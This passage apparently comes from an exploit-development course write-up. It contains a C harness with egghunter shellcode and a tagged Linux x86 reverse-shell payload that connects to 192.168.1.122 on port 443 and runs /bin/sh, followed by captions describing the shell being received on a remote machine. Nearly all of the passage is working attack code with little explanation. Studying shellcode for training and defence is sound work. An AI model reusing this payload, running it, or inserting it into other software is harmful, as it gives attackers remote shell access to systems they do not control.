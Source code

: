 ```[sengen@manjaro-x86 assignment3]$ gcc shellcode.c -o shellcode```
```c
#include <string.h>
#include <stdio.h>

main()
{
    char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

    char payload[] = "\x90\x50\x90\x50\x90\x50\x90\x50\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x7a\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

### Gaining shell
**Executing shellcode program that initiates the egghunter**<br/>
<img src="{{ site.url }}/images/slae32/03-01.png"/>

**Receiving shell on remote Linux machine**<br/>
<img src="{{ site.url }}/images/slae32/03-02.png"/>
